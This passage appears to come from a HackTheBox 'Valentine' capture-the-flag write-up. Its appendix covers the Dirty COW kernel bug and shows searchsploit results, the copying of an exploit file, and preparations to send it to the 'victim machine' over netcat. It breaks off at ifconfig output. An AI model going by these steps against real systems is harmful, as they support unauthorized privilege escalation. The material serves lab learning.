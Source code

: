 ### APPENDIX

There was discussion in various forums appearing to reference the Linux "Dirty
Cow" exploit as also a means for priviledge escalation against this version of
the Linux OS. That would be interesting to also try out.

```
https://infosecuritygeek.com/hackthebox-valentine/
```

##### DIRTY COW

```
DirtyCOW bug is a race condition in the Linux kernel’s memory subsystem which
handles the copy-on-write (COW) breakage of private read-only memory mappings.
By exploiting this bug, an unprivileged local user could use this flaw to gain
write access to otherwise read-only memory mappings, thus increasing their
privileges on the system.

https://dirtycow.ninja/
```

So let's see what we can find out about attempting this exploit..

```
$ searchsploit dirty cow
--------------------------------------------- ----------------------------------
 Exploit Title                               |  Path
                                             | (/usr/share/exploitdb/platforms/)
--------------------------------------------- ----------------------------------
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRAC | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRAC | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /pro | linux/local/40611.c
--------------------------------------------- ----------------------------------
$ cp /usr/share/exploitdb/platforms/linux/local/40839.c .
```

Let's try using `netcat` to transfer the file over to the victim machine (noting
that our own ip address is `10.10.16.55`)..

```
$ sudo ifconfig
[sudo] password for fortyfunbobby: 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.15  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::a00:27ff:febe:c78  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:be:0c:78  txqueuelen 1000  (Ethernet)
        RX packets 129979  bytes 45471913 (43.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 92333  bytes 13950652 (13.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 922  bytes 46438 (45.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 922  bytes 46438 (45.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.16.55  netmask 255.255.254.0  destination 10.10.16.55
        inet6 fe80::6e8f:e4b1:ed7e:faf3  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:4::1035  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
```